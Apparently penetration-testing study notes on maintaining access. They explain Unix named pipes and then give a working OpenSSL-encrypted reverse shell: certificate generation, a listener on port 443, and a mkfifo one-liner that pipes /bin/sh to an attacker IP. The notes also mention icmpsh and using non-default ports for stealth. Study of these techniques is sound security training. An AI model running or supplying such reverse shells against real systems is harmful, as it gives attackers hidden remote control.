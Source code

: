 	- `cat /tmp/<DataFolder> | base64 -d > datafolder.tar`: decodes the received data and redirects the output to a compressed archive file.
	- `tar xf datafolder.tar`: extract the archive.

We can change the default used ports for extra stealthiness.

### Maintaining Access - Study Guide

(06/40) *Reverse shell*.
Common reverse shells are easy to detect since they have been heavily used and tested.

(09/40) *OpenSSL reverse shell*.
One specific method involves using an OpenSSL connection and the `mkfifo` tool that exploits the Unix named pipes.

A *named pipe*, also known as a FIFO (First In, First Out), is a special type of file in Unix-like operating systems that provides a mechanism for inter-process communication. Unlike regular pipes, which are anonymous and exist only as long as the processes using them are running, named pipes have a persistent presence in the file system and can be accessed by multiple processes simultaneously. Named pipes appear as regular files in the file system, allowing processes to read from them as if they were reading from a file and write to them as if they were writing to a file. This enables data to be passed between processes efficiently and asynchronously, facilitating communication between different parts of a system or between different applications.

(12/40) Example to understand how a named pipe works:
`mkfifo a_pipe`: to create a pipe file.
`gzip -9 -c < a_pipe > out.gz &`: to start a gzip process in the background (-9 for maximum compression) which reads data from the named pipe `a_pipe` and writes compressed output to `out.gz`.
`ls`:
```
a_pipe
```
`cat /etc/passwd > a_pipe`: to write the contents of the `/etc/passwd` file into the named pipe `a_pipe`. This triggers the gzip process to compress the input and write it into `out.gz`.
`ls`:
```
a_pipe	out.gz
```
`gunzip out.gz`: to decompress the file `out.gz`, restoring its original content.
`ls`:
```
a_pipe	out
```
In the `out` file we have the `/etc/passwd` content.

(14/40) `openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes`: to generate an OpenSSL certificate key pair. It will create `key.pem` and `cert.pem`.
`openssl s_server -quiet -key key.pem -cert cert.pem -port 443`: to start up an OpenSSL listener with our certificate and associated key on port 443.
To start up a reverse shell to the attacker machine (over SSL):
```
mkfifo /tmp/x; /bin/sh -i < /tmp/x 2>&1 \
	| openssl s_client -quiet -connect <AttackerIP>:443 > /tmp/x; rm /tmp/x
```

(18/40) *ICMP reverse shell*.
Another reverse shell technique uses the `icmpsh` tool that initiates a reverse shell to an attacker system using ICMP packets.
